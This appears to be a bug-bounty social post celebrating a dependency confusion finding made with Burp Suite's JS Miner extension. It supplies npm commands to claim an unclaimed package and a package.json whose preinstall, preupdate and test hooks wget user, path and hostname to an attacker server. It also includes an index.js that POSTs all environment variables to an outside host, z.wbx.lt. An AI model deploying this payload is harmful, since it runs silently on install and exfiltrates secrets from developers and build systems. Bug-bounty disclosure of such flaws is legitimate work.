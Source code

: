 ⚡Dependency Confusion via JS Miner

@GodfatherOrwa just landed a clean P1 by leveraging JS Miner in Burp Suite 🔥

Here’s how it went down 👇

🧩 After crawling all endpoints, he went to:
Target ➝ Extensions ➝ JS Miner ➝ Run All Passive Scans

💥 That’s when he spotted: [JS Miner] Dependency Confusion
The vulnerable package was unclaimed on NPM 👀

📦 Next steps he followed:

```
    npm login
    mkdir <package-name> && cd <package-name>
    npm init -y
    npm publish --access public

```

package.json

```json
{
  "name": "====>Replace This wite The Package NAME",
  "version": "10.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preinstall": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preupdate": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" "
  },
  "author": "orwa",
  "license": "ISC"
 }

```

index.js 

```js
const os = require('os');
const https = require('https');

const data = JSON.stringify({
  hostname: os.hostname(),
  env: process.env,
  cwd: process.cwd(),
});

const options = {
  hostname: 'z.wbx.lt',
  port: 443,
  path: '/log',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': data.length
  }
};

const req = https.request(options, res => {});
req.write(data);
req.end();

```

After claiming the package, he injected an RCE payload via package.json
🧪 Full POC: [https://github.com/orwagodfather/NPM-RCE](https://github.com/orwagodfather/NPM-RCE)

💣 Result? A solid P1 vulnerability and a perfect example of how effective Dependency Confusion still is.

Props to @GodfatherOrwa for consistently dropping fire techniques 🔥
